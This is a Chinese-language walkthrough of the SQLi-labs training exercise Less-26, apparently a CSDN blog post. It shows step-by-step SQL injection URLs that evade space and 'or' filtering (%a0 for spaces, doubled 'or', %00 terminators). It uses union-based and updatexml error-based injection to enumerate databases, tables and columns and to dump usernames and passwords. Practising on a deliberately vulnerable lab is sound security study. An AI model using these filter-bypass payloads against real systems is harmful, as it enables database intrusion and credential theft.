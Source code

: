 **判断列数**<br />http://www.web.com/sql/Less-26/?id=1'order by 3;%00<br />报错<br />![](https://img-blog.csdnimg.cn/20200722194055325.png#crop=0&crop=0&crop=1&crop=1&id=YA6ES&originHeight=29&originWidth=1485&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**提示显示空格和or都被注释掉了，在这里空格使用%a0，将or双写就ok**<br />![](https://img-blog.csdnimg.cn/20200722160522625.png#crop=0&crop=0&crop=1&crop=1&id=HJ2IJ&originHeight=60&originWidth=590&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
http://www.web.com/sql/Less-26/?id=1'%a0oorrder%a0by%a03;%00<br />![](https://img-blog.csdnimg.cn/20200722153532216.png#crop=0&crop=0&crop=1&crop=1&id=hjEou&originHeight=163&originWidth=432&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看当前数据库**<br />http://www.web.com/sql/Less-26/?id=-1'%a0union%a0select%a01,2,database();%00<br />没有反应，查看提示这是因为-被注释掉了，将?id=-1改为?id=1111或其他不存在的值<br />![](https://img-blog.csdnimg.cn/20200722194829234.png#crop=0&crop=0&crop=1&crop=1&id=WgX8H&originHeight=44&originWidth=948&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
http://www.web.com/sql/Less-26/?id=1111'%a0union%a0select%a01,2,database();%00<br />![](https://img-blog.csdnimg.cn/20200722194810734.png#crop=0&crop=0&crop=1&crop=1&id=HPSIo&originHeight=181&originWidth=531&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**以下步骤与Sqli-labs-Less-25 中方法一相同**<br />注意将空格换为%a0和or进行双写

**也可使用报错注入的方式**<br />将or换为||<br />**查看当前库**<br />http://www.web.com/sql/Less-26/?id=1'%a0||%a0updatexml(1,concat(0x7e,database(),0x7e),1)%a0||%a0'1'='1<br />![](https://img-blog.csdnimg.cn/20200722200913871.png#crop=0&crop=0&crop=1&crop=1&id=PExlD&originHeight=36&originWidth=332&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有库**<br />http://www.web.com/sql/Less-26//?id=1'  || updatexml(1, concat(0x7e, (select%a0group_concat(schema_name)%a0from%a0infoorrmation_schema.schemata) ,0x7e),1)  || '1'='1<br />![](https://img-blog.csdnimg.cn/20200722201952859.png#crop=0&crop=0&crop=1&crop=1&id=N436P&originHeight=31&originWidth=564&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有表（security）**<br />http://www.web.com/sql/Less-26//?id=1'  || updatexml(1, concat(0x7e, (select%a0group_concat(table_name)%a0from%a0infoorrmation_schema.tables%a0where%a0table_schema='security') ,0x7e),1)  || '1'='1<br />![](https://img-blog.csdnimg.cn/20200722201618679.png#crop=0&crop=0&crop=1&crop=1&id=gZ1gq&originHeight=36&originWidth=567&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看表中字段（users）**<br />http://www.web.com/sql/Less-26//?id=1'  || updatexml(1, concat(0x7e, (select%a0group_concat(column_name)%a0from%a0infoorrmation_schema.columns%a0where%a0table_name='users') ,0x7e),1)  || '1'='1<br />![](https://img-blog.csdnimg.cn/20200722201825421.png#crop=0&crop=0&crop=1&crop=1&id=VCJwN&originHeight=38&originWidth=483&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看账户和密码**<br />http://www.web.com/sql/Less-26//?id=1'  || updatexml(1, concat(0x7e, (select%a0group_concat(concat('~',username,passwoorrd))%a0from%a0security.users) ,0x7e),1)  || '1'='1<br />![](https://img-blog.csdnimg.cn/20200722202112762.png#crop=0&crop=0&crop=1&crop=1&id=PXVtV&originHeight=36&originWidth=594&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**以此类推爆出所有数据。**


# Sqli-labs-Less-26a
![](https://img-blog.csdnimg.cn/20200723111121924.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=V1Jjb&originHeight=356&originWidth=1192&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
